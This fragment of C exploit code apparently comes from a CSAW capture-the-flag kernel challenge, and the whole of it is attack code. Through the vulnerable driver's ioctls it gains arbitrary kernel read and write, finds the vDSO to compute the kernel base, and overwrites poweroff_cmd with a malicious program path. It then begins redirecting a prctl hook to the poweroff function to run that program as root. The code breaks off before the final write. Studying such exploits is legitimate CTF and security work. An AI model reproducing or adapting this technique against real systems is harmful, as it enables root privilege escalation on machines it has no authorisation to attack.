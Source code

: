 ```
    alloc_channel.buf_size = 0x100;
    ioctl(fd, CSAW_ALLOC_CHANNEL, &alloc_channel);
    if(alloc_channel.id == -1){
        printf("[-] alloc channel failed!\n");
        return 0;
    }

    shrink_channel.id = alloc_channel.id;
    shrink_channel.size = 0x101;
    ioctl(fd, CSAW_SHRINK_CHANNEL, &shrink_channel);

    for(addr = 0xffffffff80000000; addr < 0xffffffffffffefff; addr += 0x1000){
        seek_channel.id = alloc_channel.id;
        seek_channel.index = addr-0x10;
        seek_channel.whence = SEEK_SET;
        ioctl(fd, CSAW_SEEK_CHANNEL, &seek_channel);

        read_channel.id = alloc_channel.id;
        read_channel.buf = buf;
        read_channel.count = 0x1000;
        ioctl(fd, CSAW_READ_CHANNEL, &read_channel);
        search = memmem(read_channel.buf, 0x1000, "gettimeofday", 12);
        if(search && ((search -(size_t)buf) == 0x2cd)){
                vdso_kernel = addr;
                printf("[+] vdso_kernel: 0x%lx\n",vdso_kernel);
                break;
            }
    }
    size_t kernel_base = vdso_kernel & 0xffffffffff000000;
    size_t prctl_hook = kernel_base + 0xeb7df8;
    size_t poweroff_cmd = kernel_base + 0xE4DFA0;
    size_t poweroff_func = kernel_base + 0x0A39C0;
    
    printf("kernel_base :0x%lx\n", kernel_base);
    printf("prctl_hook :0x%lx\n", prctl_hook);
    printf("poweroff_cmd :0x%lx\n", poweroff_cmd);
    printf("poweroff_func :0x%lx\n", poweroff_func);

    // 修改poweroff_cmd 命令为恶意程序路径
    seek_channel.id = alloc_channel.id;
    seek_channel.index = poweroff_cmd - 0x10;
    seek_channel.whence = SEEK_SET;
    ioctl(fd, CSAW_SEEK_CHANNEL, &seek_channel);

    write_channel.id = alloc_channel.id;
    write_channel.buf = payload;
    write_channel.count = strlen(payload);
    ioctl(fd, CSAW_WRITE_CHANNEL, &write_channel);
    
    char poweroff_func_addr[8];
    for(int i = 0; i < 8; i++){
        poweroff_func_addr[i] = (char)(poweroff_func & 0xff);
        poweroff_func = poweroff_func >> 8;
    }

    //char *poweroff_func_addr = malloc(0x20);
    //*(size_t *)poweroff_func_addr = poweroff_func; 或者用这样转换long型整数到char数组中

    //修改prctl_hook 地址为调用poweroff_func的地址
    seek_channel.id = alloc_channel.id;
    seek_channel.index = prctl_hook - 0x10;
    seek_channel.whence = SEEK_SET;
    ioctl(fd, CSAW_SEEK_CHANNEL, &seek_channel);
```
